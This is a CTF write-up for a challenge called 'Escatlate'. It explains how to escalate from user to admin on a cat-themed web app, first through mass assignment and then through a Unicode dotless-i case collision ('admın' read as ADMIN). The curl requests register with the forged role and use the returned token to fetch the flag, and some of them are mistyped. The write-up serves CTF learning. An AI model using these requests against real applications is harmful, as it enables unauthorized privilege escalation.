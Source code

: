 # Escatlate
### There are two flags to find in this challenge. Let's take a look at how to find them.
[https://escatlate-52bc47e034fa.1753ctf.com/]
>
>Look! Kitties!
>
## Moderator

Logging in to the cat site automatically gets the `user role`, it allows you to browse the cat site and post comments. However, the application has a vulnerability: Mass Assignment. This means that the role assignment is not checked and the user can change it.That is, by providing a session token we are able to overwrite our role. Read more [here](https://tcm-sec.com/exploiting-mass-assignment-vulnerabilities/)

```bash 
example solution


```
## Admin

However, with the second flag, i.e. changing the role from `user` to `admin`, the application has a dotless vulnerability. When you specify a new role as `admın`, Unicode case collisions happen and it is read as `ADMIN`. More information [here](https://dev.to/jagracey/hacking-github-s-auth-with-unicode-s-turkish-dotless-i-460n)

```bash 
example solution
url --path-as-is -i -s -k -X $'POST' -H '$HOST: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.cat' -H'Content-Type: application/json' -H $'Content-Lenght: 53' --data-binary $'{\"username\":\"fw\",\"password\":\"sus\",\"role\":\"admın\"}' $'https://escatlate-52bc47e034fa.1753ctf.com/api/register'
```
Then we can recive:
```bash
{"username":"fw","password":"sus","token":"2b0b185cdbd08004698673d68697f262f2511ad8c446a98e2c058759aa4478e2","role":"admın"}
```
so we can confirm our role now is `admın` but app read this role as  `ADMIN` so we have admin righ. Now we can use our token to get flag:
```bash
curl --path-as-is -i -s -k -X $'GET' \
-H $'Host: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.cat' -H $'X-Token: 2b0b185cdbd08004698673d68697f262f2511ad8c446a98e2c058759aa4478e2' \
$'https://escatlate-52bc47e034fa.1753ctf.com/api/message'

```
